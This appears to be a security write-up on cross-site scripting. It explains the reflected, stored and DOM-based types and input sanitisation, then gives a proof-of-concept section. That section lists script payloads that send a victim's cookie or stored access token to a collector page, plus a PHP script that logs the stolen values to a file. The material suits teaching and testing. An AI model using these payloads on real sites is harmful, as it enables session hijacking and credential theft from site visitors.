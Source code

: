 ## Vulnerability Details

Cross-Site Scripting (XSS) is a type of computer security vulnerability typically found in web applications. XSS allows attackers to inject malicious code into a website, which is then executed in the browser of anyone who visits the site. This can allow attackers to steal sensitive information, such as user login credentials, or to perform other malicious actions.

There are 3 main types of XSS attacks:

* **Reflected XSS**: In a reflected XSS attack, the malicious code is embedded in a link that is sent to the victim. When the victim clicks on the link, the code is executed in their browser. For example, an attacker could create a link that contains malicious JavaScript, and send it to the victim in an email. When the victim clicks on the link, the JavaScript code is executed in their browser, allowing the attacker to perform various actions, such as stealing their login credentials.

* **Stored XSS**: In a stored XSS attack, the malicious code is stored on the server, and is executed every time the vulnerable page is accessed. For example, an attacker could inject malicious code into a comment on a blog post. When other users view the blog post, the malicious code is executed in their browsers, allowing the attacker to perform various actions.

* **DOM-based XSS**: is a type of XSS attack that occurs when a vulnerable web application modifies the DOM (Document Object Model) in the user's browser. This can happen, for example, when a user input is used to update the page's HTML or JavaScript code in some way. In a DOM-based XSS attack, the malicious code is not sent to the server, but is instead executed directly in the user's browser. This can make it difficult to detect and prevent these types of attacks, because the server does not have any record of the malicious code.

To prevent XSS attacks, it is important to properly validate and sanitize user input. This means ensuring that all input meets the necessary criteria, and removing any potentially dangerous characters or code. It is also important to escape special characters in user input before rendering it in the browser, to prevent the browser from interpreting it as code.


## Exploit code or POC

### Data grabber for XSS

Obtains the administrator cookie or sensitive access token, the following payload will send it to a controlled page.

```html
<script>document.location='http://localhost/XSS/grabber.php?c='+document.cookie</script>
<script>document.location='http://localhost/XSS/grabber.php?c='+localStorage.getItem('access_token')</script>
<script>new Image().src="http://localhost/cookie.php?c="+document.cookie;</script>
<script>new Image().src="http://localhost/cookie.php?c="+localStorage.getItem('access_token');</script>
```

Write the collected data into a file.

```php
<?php
$cookie = $_GET['c'];
$fp = fopen('cookies.txt', 'a+');
fwrite($fp, 'Cookie:' .$cookie."\r\n");
fclose($fp);
?>
```
